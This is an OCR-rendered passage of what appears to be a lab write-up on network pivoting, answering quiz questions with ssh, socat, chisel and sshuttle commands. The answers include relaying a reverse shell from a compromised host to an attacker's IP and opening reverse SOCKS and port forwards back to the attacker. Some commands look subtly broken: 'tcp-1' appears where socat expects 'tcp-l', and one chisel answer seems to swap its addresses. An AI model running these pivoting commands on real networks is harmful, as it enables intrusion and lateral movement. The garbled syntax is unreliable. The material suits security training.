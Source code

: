 ssh -L 8000:172.16.0.50:80 user@127.0.0.1 -fN

## Task 12 - Pivoting plink.exe

**What tool can be used to convert OpenSSH keys into PuTTY style keys?**

puttygen

## Task 13 - Pivoting Socat

**Which socat option allows you to reuse the same listening port for more than one connection?**

reuseaddr

**If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?**

./socat tcp-1:8000 tcp:172.16.0.200:443

**What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.100:22, using a static copy of socat in the current directory, and backgrounding the process (easy method)?**

./socat tcp-1:2222,fork,reuseaddr tcp:172.16.0.100:22 &

## Task 14 - Pivoting Chisel

**Use port 4242 for the listener and do not background the process.**

./chisel server -p 4242 --reverse

**What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?**

./chisel client 172.16.0.200:4242 R:socks &

**How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.**

./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &

**If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?**

./chisel client 172.16.0.10:80 8000:172.16.0.5:4444

## Task 15 - Pivoting sshuttle

**How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16**

sshuttle -r pwned@172.16.20.7 172.16.0.0/16

**What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?**

--ssh-cmd "ssh -i priv_key"
